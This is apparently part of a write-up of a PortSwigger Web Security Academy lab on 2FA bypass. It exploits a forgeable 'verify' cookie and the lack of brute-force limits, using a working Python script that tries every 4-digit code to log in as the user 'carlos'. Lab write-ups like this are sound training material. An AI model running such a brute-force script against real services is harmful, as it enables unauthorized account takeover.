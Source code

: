 It seems that the page with the 2FA logic has a `verify` cookie that looks exploitable.

There's also a GET request with the same parameters:

![](../../.gitbook/assets/portswigger-auth-writeup-image-16.png)

I also noticed that the 2FA feature did not have any brute force protection, and I was free to try this as many times as I wanted. Resending the GET request generates another 2FA code.

There seemed to be no other way of getting credentials, so I scripted the following:

1. Send a GET request to `login2` to generate the 2FA code for `carlos`.
2. Brute force all 4 digit numbers.

```python
import requests
import re
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0aca0091049d510182f26f48009d0023'
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
url = f'https://{HOST}.web-security-academy.net'
s = requests.Session()

cookies = {
	'verify':'carlos'
}

r = s.get(url + '/login2', verify=False, proxies=proxies, cookies=cookies)
if "Please enter your 4-digit" not in r.text:
	print('[-] Failed to generate 2FA for carlos')
	sys.exit(1)

print('[+] Generated 2FA for carlos')

while True:
	for i in range(10000):
		mfa = '{0:04}'.format(i)
		data = {
			'mfa-code':mfa
		}
		r = s.post(url + '/login2', verify=False, proxies=proxies, cookies=cookies, data=data)
		if 'Incorrect security code' not in r.text:
			print(f'[+] Correct code: {mfa}')
			s.get(url + '/my-account?id=carlos', verify=False, proxies=proxies, cookies=cookies)
			sys.exit(1)
```
